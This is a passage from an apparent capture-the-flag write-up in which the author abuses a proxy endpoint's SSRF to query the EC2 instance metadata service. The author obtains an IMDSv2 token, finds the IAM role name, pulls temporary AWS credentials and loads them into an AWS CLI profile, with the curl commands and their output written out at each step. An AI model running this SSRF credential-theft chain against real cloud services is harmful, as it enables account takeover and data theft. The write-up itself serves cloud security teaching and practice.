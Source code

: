 EC2 metadata gives us temporary credentials assigned to the instance. So is it IMDSv1 or IMDSv2[^5]? Here is a nice chart. This documentation helps: [AWS: Use the Instance Metadata Service to access instance metadata](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-service.html#instance-metadata-retrieval-examples)

| Version  | URL                                           | Auth Method           | Protection                 |
| :------- | :-------------------------------------------- | :-------------------- | :------------------------- |
| **IMDSv1** | `http://169.254.169.254/latest/meta-data/`   | None                  | Easily exploitable via SSRF |
| **IMDSv2** | `http://169.254.169.254/latest/api/token`     | Requires `PUT` + token | Prevents basic SSRF        | 

I doubt it's IMDSv1. Cause it's never that easy. 

Lets check if it's IMDSv1:
```bash
curl -s "https://ctf:88sPVWyC2P3p@challenge01.cloud-champions.com/proxy?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
# HTTP error: 401 Unauthorized
```

Welp not IMDSv1, so it's IMDSv2 (remember ):
```bash
curl -X PUT "https://ctf:88sPVWyC2P3p@challenge01.cloud-champions.com/proxy?url=http://169.254.169.254/latest/api/token" \
  -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"
# AQAEAL-lBwoPV1s4laoPZ7UoEZGLyTFH5NMNavj1jqbEUCEIbX_b0A==
```

Since that returned a token, then the EC2 has IMDSv2 enabled. We can use that token in the header to fetch metadata: 
This documentation will show you how to that[^6]: [AWS: Retrieve security credentials from instance metadata](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instance-metadata-security-credentials.html)
```bash
curl -H "X-aws-ec2-metadata-token: AQAEAL-lBwoPV1s4laoPZ7UoEZGLyTFH5NMNavj1jqbEUCEIbX_b0A==" \
  https://ctf:88sPVWyC2P3p@challenge01.cloud-champions.com/proxy?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
# challenge01-5592368
```
Got the role-name, now append that to the end:
```bash
curl -H "X-aws-ec2-metadata-token: AQAEAL-lBwoPV1s4laoPZ7UoEZGLyTFH5NMNavj1jqbEUCEIbX_b0A=="  https://ctf:88sPVWyC2P3p@challenge01.cloud-champions.com/proxy?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/challenge01-5592368

#  {
#   "Code" : "Success",
#   "LastUpdated" : "2025-07-07T18:33:32Z",
#   "Type" : "AWS-HMAC",
#   "AccessKeyId" : "ASIAxxxx",
#   "SecretAccessKey" : "JZ8exxxx",
#   "Token" : "IQoJxxxx",
#   "Expiration" : "2025-07-08T00:46:25Z"
# }
```
Aye thats what we need. Lets configure a profile to use those creds
```bash
aws configure --profile jyw
#AWS Access Key ID [None]: ASIAxxxx
#AWS Secret Access Key [None]: JZ8exxxx
#Default region name [None]: 
#Default output format [None]: 
```
We're gonna need the token as well. After you save the above edit the credentials files 
```bash
vi ~/.aws/credentials
# [jyw]
# aws_access_key_id = ASIAxxxx
```

[^1]: [Spring: Spring Boot](https://docs.spring.io/spring-boot/index.html)
[^2]: [Spring: Health (health)](https://docs.spring.io/spring-boot/api/rest/actuator/health.html#page-title)
[^3]: [Spring: Endpoints](https://docs.spring.io/spring-boot/reference/actuator/endpoints.html#page-title)
[^4]: [Spring: Mappings (mappings)](https://docs.spring.io/spring-boot/api/rest/actuator/mappings.html#page-title)
[^5]: [AWS: Use the Instance metadata Service to access instance metadata](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-service.html#instance-metadata-retrieval-examples-imdsv1)
[^7]: [AWS: Troubleshoot access denied (403 Forbidden) errors in Amazon S3](https://docs.aws.amazon.com/AmazonS3/latest/userguide/troubleshoot-403-errors.html)